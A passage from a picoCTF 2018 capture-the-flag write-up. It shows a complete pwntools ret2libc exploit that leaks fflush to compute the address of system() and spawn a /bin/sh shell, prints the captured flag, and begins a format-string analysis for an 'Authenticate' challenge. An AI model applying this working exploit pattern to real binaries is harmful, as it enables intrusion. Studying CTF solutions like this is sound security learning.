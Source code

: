 we find the offset of `fflush()` is `0x0005d330` and the offset of `system()` is `0x0003a940`.


With all our address, we make a call to `system('/bin/sh')` and we get our flag.

```python
eip_offset = 160
libc_system_offset = 0x0003a940 # offset of system
libc_fflush_offset = 0x0005d330 # offset of fflush

def exploit(r):
    # Grab fflush and /bin/sh
    r.recvuntil('fflush ')
    fflush_addr = int(r.recv(10),16)
    r.recvuntil('_string: ')
    bin_sh_addr = int(r.recv(10),16)

    # Calculate libc base addr and system()
    libc_base = fflush_addr - libc_fflush_offset
    system_addr = libc_base + libc_system_offset

    log.info("libc base : %s" % hex(libc_base))
    log.info("fflush()  : %s" % hex(fflush_addr))
    log.info("system()  : %s" % hex(system_addr))
    log.info("/bin/sh   : %s" % hex(bin_sh_addr))

    # I/O
    print r.recvuntil('a string:\n')

    # Create Payload
    payload = ''
    payload += '\x90'*eip_offset
    payload += p32(system_addr)
    payload += p32(0x565558f4) #ret2main
    payload += p32(bin_sh_addr)

    # I/O
    r.sendline(payload)
    print r.recvuntil('...\n')

    r.interactive()
    return
```

```bash
picoCTF{syc4al1s_4rE_uS3fUl_b61928e8}
```

## Echooo
>This program prints any input you give it. Can you leak the flag? Connect with `nc 2018shell1.picoctf.com 23397`

## Authenticate
Analyzing the source code tells us that in order to get the flag, we must change the value of `authenticaed` to any integer other than 0 (recall: any value beside 0 evaluates to True in C). Since the code takes our input and displays it back to us via `printf()` we see that this may be a potential format string attack. From our reading, we know that via a format string vulnerability, we can write an integer into any arbitrary address (given that ASLR is disabled).
